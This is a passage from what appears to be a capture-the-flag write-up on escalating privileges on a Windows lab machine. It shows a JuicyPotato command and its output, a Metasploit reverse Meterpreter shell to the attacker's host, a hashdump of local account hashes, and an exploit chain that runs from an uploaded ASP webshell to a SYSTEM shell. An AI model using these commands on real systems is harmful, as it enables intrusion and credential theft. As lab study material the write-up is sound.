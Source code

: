 ```console
nt authority\system
```

4. MSF usage

```console
PS C:\qwe> ./JuicyPotato.exe -t * -p admin.exe -l 2333 -c '{F7FD3FD6-9994-452D-8DA7-9A8FD87AEEF4}'
Testing {F7FD3FD6-9994-452D-8DA7-9A8FD87AEEF4} 2333
......
[+] authresult 0
{F7FD3FD6-9994-452D-8DA7-9A8FD87AEEF4};NT AUTHORITY\SYSTEM
[+] CreateProcessWithTokenW OK

--------------------------------------------------------------------------------

msf6 exploit(multi/handler) > run
[*] Started reverse TCP handler on 10.10.16.24:6666
[-] Meterpreter session 1 is not valid and will be closed
[*] 10.129.22.130 - Meterpreter session 1 closed.
[*] Sending stage (200774 bytes) to 10.129.22.130
[*] Meterpreter session 2 opened (10.10.16.24:6666 -> 10.129.22.130:49729) at 2024-02-21 01:50:10 +0800
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > hashdump
Administrator:500:aad3b435b51404eeaad3b435b51404ee:cfae93e238dd61819cb9ab492a31cf06:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Destitute:1001:aad3b435b51404eeaad3b435b51404ee:213d5b0f252d57b6ede6b74ba7ba04b2:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
```

### Another PrivEsca Method

> An elevation of privilege vulnerability exists when Windows improperly handles calls to Advanced Local Procedure Call (ALPC), aka "Windows ALPC Elevation of Privilege Vulnerability." This affects Windows 7, Windows Server 2012 R2, Windows RT 8.1, Windows Server 2008, Windows Server 2012, Windows 8.1, Windows Server 2016, Windows Server 2008 R2, Windows 10, Windows 10 Servers.

ALPC SCHEDULER LPE

- https://nvd.nist.gov/vuln/detail/CVE-2018-8440
- https://googleprojectzero.blogspot.com/2018/04/windows-exploitation-tricks-exploiting.html

## Exploit Chain

port scan: no tcp, only udp -> ike protocol found -> ike recon: sa, config details -> strongswan config of IPSec -> port scan again: ftp & iis upload dir -> upload asp webshell -> nishang's invoke-powershelltcp -> ps revshell -> user shell with SeImpersonatePrivilege -> JuicyPotato usage -> system shell
